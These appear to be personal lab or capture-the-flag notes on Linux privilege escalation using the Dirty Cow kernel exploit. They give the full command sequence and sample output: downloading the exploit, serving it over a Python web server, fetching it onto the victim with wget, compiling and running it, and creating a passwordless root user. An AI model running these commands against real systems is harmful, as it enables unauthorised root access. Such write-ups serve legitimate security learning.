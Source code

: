 # Privilege Escalation
## Local Enumeration
- Running `uname -a` shows the kernel version is vuln to **Dirty Cow** exploit!!

## Privilege Escalation vector
### Dirty Cow
- Want to avoid using Metasploit so searching came across the following exploit that creates a new root user named `firefart`
1. Start by downloading the exploit to our machine:
```bash
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
```
2. Next we need to get this onto the victim testing we do have access to `wget` on the victims machine so we start python server from our machine and pull it to the victim:
```bash
python3 -m http.server 9000
```
&&
```bash
wget http://10.10.10.10:9000/dirty.c
```
3. Now we need to compile this on the victims machine the script itself gives us in the notes what [[GCC]] command to use:
```bash
gcc -pthread dirty.c -o dirty -lcrypt
```
4. Final pre-step is to set this file to executable:
```bash
chmod +x dirty
```
5. Now we run this payload and pass it nothing for a password so we don't need one when signing into our new root user:
```bash
./dirty
```
- Note this might take a few minutes to complete and will look like the following when it completes give it time:
```bash
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7f04000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
6. Normally we would switch users at this point but the `su firefart` wasn't working for me when I tried it would never bring the prompt up.